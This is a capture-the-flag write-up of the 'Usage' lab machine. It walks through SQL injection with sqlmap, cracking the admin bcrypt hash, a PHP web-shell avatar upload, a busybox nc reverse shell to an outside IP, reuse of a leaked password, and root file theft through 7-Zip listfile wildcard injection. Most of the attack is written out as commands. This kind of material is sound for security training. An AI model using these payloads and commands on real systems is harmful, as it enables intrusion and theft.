

Usage

Recon
Two ports, SSH and an nginx that immediately redirects to usage.htb. Added the vhost to /etc/hosts.
[Usage] nmap -Pn -sSVC -p- -T5 --min-rate 2000 -oN nmap -v 10.129.28.237
Nmap scan report for 10.129.28.237
Host is up (0.23s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelThe main site is a Laravel blog with the usual authentication routes: /login, /registration, /forget-password, /dashboard. There is a second vhost too, admin.usage.htb, which serves a Laravel-admin panel (/admin, /vendor, /uploads). Both went into /etc/hosts.
Exploitation
The password reset form on usage.htb is the way in. Posting a single quote in the email field throws an error, and a comment sequence like '; -- - produces a clean 302 redirect instead. That difference between a broken query and a valid-but-commented one is the tell for SQL injection.
I saved the request and handed it to sqlmap, targeting the email parameter:
[Usage] sqlmap -r req --risk 3 --level 5 -t 10 -o -p email
Parameter: email (POST)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
Type: time-based blind
Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
back-end DBMS: MySQL < 5.0.12
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blogThe usage_blog database has an admin_users table, and dumping it returns the panel's admin account with a bcrypt hash:
Database: usage_blog
Table: admin_users
+----------+--------------------------------------------------------------+
| username | password |
+----------+--------------------------------------------------------------+
| admin | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 |
+----------+--------------------------------------------------------------+That hash falls quickly to rockyou:
[Usage] hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2:whatever1Logging in to http://admin.usage.htb/admin as admin / whatever1 lands in the Laravel-admin dashboard. The account settings page at /admin/auth/setting has an avatar upload, and it does not validate the file type. Swapping the image for a PHP file gets accepted:
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: application/x-httpd-php
<?php system($_GET['0']); ?>Uploaded avatars are served from /uploads/images/, so the shell is reachable and takes commands straight through the 0 parameter. I used it to call back with a busybox reverse shell:
[Usage] nc -lvnp 4455
http://admin.usage.htb/uploads/images/test.php?0=busybox%20nc%2010.10.15.221%204455%20-e%20/bin/bash[Usage] nc -lvnp 4455
Connection received
dash@usage:~$ id
uid=1000(dash) gid=1000(dash) groups=1000(dash)Post Exploitation
Foothold as dash. There is another user, xander, on the box. In dash's home directory the monit config file leaks a password in cleartext:
dash@usage:~$ cat /home/dash/.monitrc
...
set httpd port 2812 and
use address localhost
allow admin:"3nc0d3d_pa$$w0rd"The password 3nc0d3d_pa$$w0rd is reused for the xander account, so it is a direct switch:
dash@usage:~$ su xander
Password: 3nc0d3d_pa$$w0rd
xander@usage:~$ id
uid=1001(xander) gid=1001(xander) groups=1001(xander)Privilege Escalation
xander can run a single custom binary as root without a password:
xander@usage:~$ sudo -l
User xander may run the following commands on usage:
(ALL : ALL) NOPASSWD: /usr/bin/usage_managementRunning the strings on usage_management shows what it actually does. Option 1 changes into the web root and archives everything with 7-Zip:
xander@usage:~$ strings /usr/bin/usage_management
/var/www/html
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql
1. Project Backup
2. Backup MySQL dataThe vulnerable piece is -- *. The shell expands * to every filename in /var/www/html before 7za ever sees it, and 7za treats any argument that begins with @ as a listfile, a file whose lines name additional paths to add to the archive. So if I create a file named @x in that directory, 7za reads a file called x to decide what to include. Putting a root-only path inside x makes 7za, running as root, archive that file for me.
Using a distinct name like x avoids the duplicate-entry error you hit if the listfile and its target both resolve to the same archive name:
xander@usage:/var/www/html$ echo "/root/root.txt" > x
xander@usage:/var/www/html$ touch @x
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
1. Project Backup
2. Backup MySQL data
Enter your choice: 17-Zip follows the listfile, pulls /root/root.txt into project.zip as root, and the archive is readable back as xander. Extracting that one entry prints the root flag:
xander@usage:/var/www/html$ unzip -p /var/backups/project.zip root.txt